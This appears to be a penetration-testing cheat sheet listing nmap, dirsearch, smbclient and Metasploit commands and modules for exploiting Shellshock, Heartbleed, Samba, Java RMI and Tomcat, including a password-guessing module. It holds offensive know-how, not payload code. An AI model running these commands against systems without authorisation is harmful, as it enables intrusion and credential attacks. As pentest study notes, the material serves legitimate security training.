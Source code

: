 ### Shellshock
* vulnerable through cgi paths
* `./dirsearch.py -u <URL> -e cgi -r`
* usually exploited through *User-Agent* HTTP header
* `--script http-shellshock` - nmap script
* msf> `use exploit/multi/http/apache_mod_cgi_bash_env_exec` - ! When exploiting through pivoting, set payload to **bind**!

### Heartbleed
* `--script ssl-heartbleed` - nmap vuln script
* Metasploit `use auxiliary/scanner/ssl/openssl_heartbleed` - exploitation
    * `show actions` - additional actions for the selected module

### Samba
* below 4.6.4 contains vulns that allow RCE
__Username Map Script
* msf> `use exploit/multi/samba/usermap_script`
__Samba Symlink Directory Traversal__
1. msf> `auxiliary/admin/smb/samba_symlink_traversal`
2. `smbclient \\\\<IP>\\<folder> -N`
3. smb> `cd rootfs` 

### Java RMI
* Port __1099/TCP__
* impacts default configurations of *RMI Registry* and *RMI Activation Services*
* allows loading of arbitrary Java classess form attacker-defined URL
* `nmap -sV -p 1099` -> service identified by __GNU Classpatch Registry Fingerprint__
* msf> `exploit/multi/misc/java_rmi_server`

### Apache Tomcat
* Port __8180/TCP__
* Password guessing for Tomcat Manager - `msf> use auxiliary/scanner/http/tomcat_mgr_login`
